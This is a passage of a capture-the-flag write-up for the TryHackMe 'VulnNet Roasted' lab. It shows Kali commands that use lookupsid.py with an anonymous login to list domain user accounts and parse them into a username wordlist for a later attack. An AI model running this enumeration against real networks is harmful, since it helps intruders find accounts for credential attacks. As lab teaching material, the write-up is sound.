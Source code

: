 I use `grep` to filter only the ****************username**************** (`SidTypeUser`):

```tsx
┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ python3 lookupsid.py anonymous@10.10.168.188 | grep "(SidTypeUser)"
Password:
500: VULNNET-RST\Administrator (SidTypeUser)
501: VULNNET-RST\Guest (SidTypeUser)
502: VULNNET-RST\krbtgt (SidTypeUser)
1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
1105: VULNNET-RST\a-whitehat (SidTypeUser)
1109: VULNNET-RST\t-skid (SidTypeUser)
1110: VULNNET-RST\j-goldenhand (SidTypeUser)
1111: VULNNET-RST\j-leet (SidTypeUser)
```

# Exploit

I extract the user into a wordlist file:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ cat usernames.txt      
Administrator
Guest
krbtgt
WIN-2BO8M1OE1M1$
enterprise-core-vn
a-whitehat
t-skid
j-goldenhand
j-leet
```

You can use this syntax to cut the strings and parse the usernames only to a specific file instead of manually copying and pasting each of the username from the result:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ python3 lookupsid.py anonymous@10.10.26.214 | grep "(SidTypeUser)" | tee users.txt
Password:
500: VULNNET-RST\Administrator (SidTypeUser)
501: VULNNET-RST\Guest (SidTypeUser)
502: VULNNET-RST\krbtgt (SidTypeUser)
1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
1105: VULNNET-RST\a-whitehat (SidTypeUser)
1109: VULNNET-RST\t-skid (SidTypeUser)
1110: VULNNET-RST\j-goldenhand (SidTypeUser)
1111: VULNNET-RST\j-leet (SidTypeUser)

┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ cat users.txt | gawk -F '\' '{ print $2 }' | gawk -F ' ' '{ print $1 }' | tee users.txt
Administrator
Guest
krbtgt
WIN-2BO8M1OE1M1$
enterprise-core-vn
a-whitehat
t-skid
j-goldenhand
j-leet
```

